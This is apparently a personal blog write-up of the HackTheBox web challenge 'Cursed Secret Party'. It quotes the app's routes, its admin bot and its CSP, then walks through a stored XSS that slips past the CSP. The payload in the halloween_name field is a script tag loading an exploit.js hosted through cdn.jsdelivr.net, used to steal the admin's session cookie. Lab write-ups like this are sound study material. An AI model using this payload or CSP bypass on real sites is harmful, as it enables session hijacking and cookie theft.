 ```yaml
---
title: Cursed Secret Party
published: 2025-09-09
description: A simple example of a Markdown blog post.
tags: [HackTheBox Challenge, Web]
category: HackTheBox
draft: false
---
```


We have a website submit infomation for party

<img width="1281" height="852" alt="image" src="https://github.com/user-attachments/assets/f6deae30-8004-4e42-9c83-80c94417a6a6" />

in file `route/index.js` define 4 route

`/` for render index
``` javascript
router.get('/', (req, res) => {
    return res.render('index.html');
});
```

`/api/submit` will post your input to server and store in database, then bot will run
``` javascript
router.post('/api/submit', (req, res) => {
    const { halloween_name, email, costume_type, trick_or_treat } = req.body;

    if (halloween_name && email && costume_type && trick_or_treat) {

        return db.party_request_add(halloween_name, email, costume_type, trick_or_treat)
            .then(() => {
                res.send(response('Your request will be reviewed by our team!'));

                bot.visit();
            })
            .catch(() => res.send(response('Something Went Wrong!')));
    }

    return res.status(401).send(response('Please fill out all the required fields!'));
});
```

`/admin` checking the role is admin, then get all request party are info you did send and render to `admin.html`
``` javascript
router.get('/admin', AuthMiddleware, (req, res) => {
    if (req.user.user_role !== 'admin') {
        return res.status(401).send(response('Unautorized!'));
    }

    return db.get_party_requests()
        .then((data) => {
            res.render('admin.html', { requests: data });
        });
});
```

`/admin/delete_all` delete all request you send
``` javascript
router.get('/admin/delete_all', AuthMiddleware, (req, res) => {
    if (req.user.user_role !== 'admin') {
        return res.status(401).send(response('Unautorized!'));
    }
    
    return db.remove_requests()
            .then(() => res.send(response('All records are deleted!')));
})
```

In file bot.js, it will start browser in local, create token cookie with flag contain there. Then access to `/admin`, this will show all request you send. 
``` javascript
const visit = async () => {
    try {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();

		let token = await JWTHelper.sign({ username: 'admin', user_role: 'admin', flag: flag });
		await page.setCookie({
			name: 'session',
			value: token,
			domain: '127.0.0.1:1337'
		});

		await page.goto('http://127.0.0.1:1337/admin', {
			waitUntil: 'networkidle2',
			timeout: 5000
		});

		await page.goto('http://127.0.0.1:1337/admin/delete_all', {
			waitUntil: 'networkidle2',
			timeout: 5000
		});

		setTimeout(() => {
			browser.close();
		}, 5000);

    } catch(e) {
        console.log(e);
    }
};
```

and admin.html will render your input. So, we can send script XSS to get cookie on feild `halloween_name`, bot will access `admin` to render your payload attachment token with flag
``` html
{{ request.halloween_name | safe }}
```

But CSP had block src other `self` and `https://cdn.jsdelivr.net`
```
"Content-Security-Policy",
        "script-src 'self' https://cdn.jsdelivr.net ; style-src 'self' https://fonts.googleapis.com; img-src 'self'; font-src 'self' https://fonts.gstatic.com; child-src 'self'; frame-src 'self'; worker-src 'self'; frame-ancestors 'self'; form-action 'self'; base-uri 'self'; manifest-src 'self'"
```

Searching a little, i did find this blog [bypass csp jsdelivr](https://ian.nl/blog/bypass-csp-jsdelivr)
This CDN allow access to any source, also you can host your repo to this, very easy.

Step by step:
1. Create public repo with your payload xss
2. Host your repo with pattern `https://cdn.jsdelivr.net/gh/<user>/<repo>@<commit>/<path/to/file>`
3. Send payload via field `halloween_name`, ex: `<script src="https://cdn.jsdelivr.net/gh/cranix-ed/paylaod@5b45c259f58f4a8d75defb7b63089178d41c2bb0/exploit.js"></script>`
4. Resolve token and get flag

<img width="1477" height="439" alt="image" src="https://github.com/user-attachments/assets/54fd420d-a378-415a-ad13-d19368d50c73" />
